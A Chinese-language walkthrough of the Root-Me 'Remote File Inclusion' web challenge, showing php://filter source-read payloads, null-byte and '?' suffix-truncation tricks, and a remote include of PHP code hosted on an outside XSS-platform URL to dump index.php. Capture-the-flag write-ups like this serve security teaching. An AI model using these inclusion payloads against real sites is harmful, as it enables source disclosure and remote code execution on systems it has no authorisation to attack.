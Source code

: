## [[Root-Me](https://www.root-me.org/)] [[Web-Server](https://www.root-me.org/en/Challenges/Web-Server/)] [[Remote File Inclusion](https://www.root-me.org/en/Challenges/Web-Server/Remote-File-Inclusion)] [[解题报告](http://exp-blog.com/2019/03/09/pid-3517/)]

------


## 题目分析

PHP 的 RFI （远程文件包含）漏洞利用，与 LFI （本地文件包含）很类似。

题目要求我们获取 PHP 页面源码，开启挑战后，只有 [Français](http://challenge01.root-me.org/web-serveur/ch13/?lang=fr) （`?lang=fr`） 和  [English](http://challenge01.root-me.org/web-serveur/ch13/?lang=en) （`?lang=en`） 两个选项。

顺手测试了一下，当前页面的名称为 `index.php` ：

![](http://exp-blog.com/wp-content/uploads/2019/03/27b3b77128b57f43d51e091beb8f9be2.png)

换言之我们有 3 个页面：`?lang=fr`、`?lang=en`、 `index.php` 。

------------

## LFI 试错

虽然题目提示要使用 RFI 完成挑战，但是还是先测试下 LFI 的效果。

可以利用 `php://filter` 特性读取页面源码，构造这样的 payload ：

`?lang=php://filter/convert.base64-encode/resource=fr`

于是得到 Base64 编码的页面源码：

```base64
PD9waHAKCiRsYW5nID0gYXJyYXkgKAogICAgICAgICAgICAnbGFuZycgPT4gJ0xhbmd1ZScsCiAgICAgICAgICAgICd3ZWxjb21lJyA9PiAnQmllbnZlbnVlIHN1ciBub3RyZSBub3V2ZWF1IHNpdGUgd2ViICEnLAogICAgICAgICk7Cgo/Pgo=
```

对其解码虽然得到源码，但是没有有效的信息：

```php
<?php

$lang = array (
            'lang' => 'Langue',
            'welcome' => 'Bienvenue sur notre nouveau site web !',
        );

?>
```

类似地，`?lang=en` 的页面源码也是没提供有效的信息。

![](http://exp-blog.com/wp-content/uploads/2019/03/1e0f627b0e316117a82052c3f01c4ff9.png)


换言之，有效信息应该保存在  `index.php` 。于是构造类似的 payload 去读取页面源码：

`?lang=php://filter/convert.base64-encode/resource=index.php`

但是页面报错：

```
Warning: include(php://filter/convert.base64-encode/resource=index.php_lang.php): failed to open stream
```

从报错分析可以知道，代码会把 `?lang=输入` 构造成 `include('输入_lang.php')`

亦即前面之所以可以读取到 `?lang=fr` 和 `?lang=en` 的内容，是因为他们真正的文件名是 `fr_lang.php` 和 `en_lang.php` 。

但是因为不存在 `index_lang.php` 和 `index.php_lang.php` 页面，所以 `include()`  Local File 时就会报错。

![](http://exp-blog.com/wp-content/uploads/2019/03/1bcf580d548274484c709bfb42a08ace.png)


其实在 LFI 的领域，这种情况（include 的文件被强制加了后缀）是有办法处理的。

因为 PHP 是用 C 语言编写的，而在 C 语言中，标记一个字符串的终止符是 `\0` ，其 URL 编码是 `%00` 。

因此可以尝试在 payload 末尾添加 `%00` 以截断被强制添加的 `_lang.php` 后缀：

`?lang=php://filter/convert.base64-encode/resource=index.php%00`

但是这次报错为 `Warning: include()` ，即 `include` 的参数被置空，说明 `%00` 被过滤了。

![](http://exp-blog.com/wp-content/uploads/2019/03/7373e68e0777688c4dc09a283eaf2001.png)

------------

## RFI 漏洞

由于 LFI 的最后希望被封堵，我们把策略转移到 RFI 。

其实 RFI 更简单，从前面分析已经知道，代码会把 `?lang=输入` 构造成 `include('输入_lang.php')`。

RFI 只需要再 `输入` 点直接设置 URL 地址即可，如 payload 为：`?lang=https://www.baidu.com` 。

但是页面返回报错 ` Warning: include(https://www.baidu.com_lang.php): failed to open stream` 。

这是因为 `_lang.php` 后缀作祟。

![](http://exp-blog.com/wp-content/uploads/2019/03/94ac476477ef31bc7d843678f9bdb731.png)

在 RFI 中要截断后缀，只需要在末尾添加 `?` 即可，这样后缀就会变成 URL 的参数，亦即构造 payload 为：

`?lang=https://www.baidu.com?` 

于是我们成功把百度嵌入到了页面中：

![](http://exp-blog.com/wp-content/uploads/2019/03/5b20a66eca314aca53c9fb5c807d9bcc.png)

------------

## RFL 注入

既然可以成功嵌入百度，那么也可以嵌入 payload 页面。

所以接下来要做的，就是在一个公网可访问的 WEB 服务器上构造一个页面，把该页面的内容作为 payload ，读取发起 `include` 行为的页面源码。

为了节省搭建 WEB 服务器的资金，从这里开始我们利用 XSS 平台，推荐 [http://xss.tf](http://xss.tf) 。

在 XSS 平台上新建一个项目，并配置自定义代码 `<?php echo file_get_contents('index.php') ?>` 。

配置完成后，我们得到访问这个项目的页面地址为 `http://xss.tf/M5Q` 

![](http://exp-blog.com/wp-content/uploads/2019/03/8fe7ba5a7aed7aa670ac3802bffb4ba1.png)

将 XSS 项目的 URL 注入挑战页面，即构造 payload ： `?lang=http://xss.tf/M5Q?`

成功读取到 `index.php` 的源码，打开浏览器的开发者工具，在注释中找到 flag ，完成挑战。

![](http://exp-blog.com/wp-content/uploads/2019/03/eeca979711c55c91a331199c3cbc5f31.png)

------------

## 其他 payload

在 XSS 平台上构造 payload 的过程中，我发现这题挑战其实不止一个解法:

在 `inlcule()` 参数的引号被闭合后，可以注入 HTML 和 JS 代码，然后在 JS 代码中调用 PHP 代码。

例如构造这样的 payload 一样可以成功读取到页面源码：

`'<img src=0 onerror="<?php echo file_get_contents('index.php') ?>" />'`

 看上去好像多此一举，不过在某些情况可能会很有用。

![](http://exp-blog.com/wp-content/uploads/2019/03/68706869609927874a4d17f448dc990a.png)


------

## 版权声明

　[![Copyright (C) 2016-2019 By EXP](https://img.shields.io/badge/Copyright%20(C)-2016~2019%20By%20EXP-blue.svg)](http://exp-blog.com)　[![License: GPL v3](https://img.shields.io/badge/License-GPL%20v3-blue.svg)](https://www.gnu.org/licenses/gpl-3.0)
  

- Site: [http://exp-blog.com](http://exp-blog.com) 
- Mail: <a href="mailto:289065406@qq.com?subject=[EXP's Github]%20Your%20Question%20（请写下您的疑问）&amp;body=What%20can%20I%20help%20you?%20（需要我提供什么帮助吗？）">289065406@qq.com</a>


------
